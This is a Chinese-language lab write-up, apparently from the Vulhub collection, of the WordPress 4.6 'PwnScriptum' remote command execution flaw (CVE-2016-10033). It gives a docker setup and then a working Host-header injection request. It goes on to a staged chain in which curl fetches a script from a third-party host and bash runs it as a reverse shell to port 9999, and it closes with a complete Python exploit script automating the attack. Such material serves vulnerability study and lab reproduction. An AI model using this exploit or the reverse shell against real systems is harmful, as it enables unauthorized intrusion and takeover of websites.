


Wordpress 4.6 任意命令执行漏洞 PwnScriptum¶
漏洞描述¶
参考： - https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html
环境搭建¶
Vulhub编译及运行测试环境
docker-compose build
docker-compose up -d
由于Mysql初始化需要一段时间，所以请等待。成功运行后，访问http://your-ip:8080/wp-admin/install.php打开站点，初始化管理员用户名和密码后即可使用（数据库等已经配置好，且不会自动更新）。
漏洞复现¶
发送如下数据包，可见/tmp/awesome_poc已经成功创建：
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}awesome_poc}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
wp-submit=Get+New+Password&redirect_to=&user_login=admin

但实际利用起来，还是有一些坑需要踏过。具体的坑有这么几个：
- 执行的命令不能包含大量特殊字符，如
:、引号等。 - 命令会被转换成小写字母
- 命令需要使用绝对路径
- 需要知道某一个存在的用户的用户名
为了解决这些坑，漏洞作者想出了，利用${substr{0}{1}{$spool_directory}}代替/，用${substr{10}{1}{$tod_log}}代替空格的方法。
但是还是有很多字符不能用，所以我们需要将待执行的命令放到第三方网站中，然后通过curl -o /tmp/rce example.com/shell.sh的方法先将他下载到/tmp目录中，再去执行。
所以，总体来说利用过程如下：
- 编写反弹shell的exp，放到某个网页里。有如下要求：
- 整个url的大写字母会被转换成小写，所以大写小敏感的系统不要使用大写字母做文件路径
- 访问该网页不能跳转，因为follow跳转的参数是
-L（大写） - 拼接成命令
/usr/bin/curl -o/tmp/rce example.com/shell.sh和命令/bin/bash /tmp/rce - 将上述命令中的空格和
/转换成${substr{10}{1}{$tod_log}}和${substr{0}{1}{$spool_directory}} - 拼接成HTTP包的Host头：
target(any -froot@localhost -be ${run{command}} null) - 依次发送这两个拼接好的数据包
将上述过程写成exp脚本，将脚本中target修改成你的目标，user修改成一个已经存在的用户，shell_url修改成你放置payload的网址。（或直接将target作为第一个参数、shell_url作为第二个参数）
example.com/shell.sh的内容为：
bash -i >& /dev/tcp/your-reverse—shell-ip/9999 0>&1
执行即可获得shell：
python wordpress.py http://192.168.174.128:8080 example.com/shell.sh
监听9999端口，接收反弹shell：

漏洞POC¶
#!/usr/bin/env python3
import requests
import sys
# wordpress's url
target = 'http://127.0.0.1' if len(sys.argv) < 1 else sys.argv[1]
# Put your command in a website, and use the website's url
# don't contains "http://", must be all lowercase
shell_url = 'example.com/1.txt' if len(sys.argv) < 2 else sys.argv[2]
# an exists user
user = 'admin'
def generate_command(command):
command = '${run{%s}}' % command
command = command.replace('/', '${substr{0}{1}{$spool_directory}}')
command = command.replace(' ', '${substr{10}{1}{$tod_log}}')
return 'target(any -froot@localhost -be %s null)' % command
session = requests.session()
data = {
'user_login': user,
'redirect_to': '',
'wp-submit': 'Get New Password'
}
session.headers = {
'Host': generate_command('/usr/bin/curl -o/tmp/rce ' + shell_url),
'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
}
session.allow_redirects = False
target += '/wp-login.php?action=lostpassword'
session.post(target, data=data)
session.headers['Host'] = generate_command('/bin/bash /tmp/rce')
session.post(target, data=data)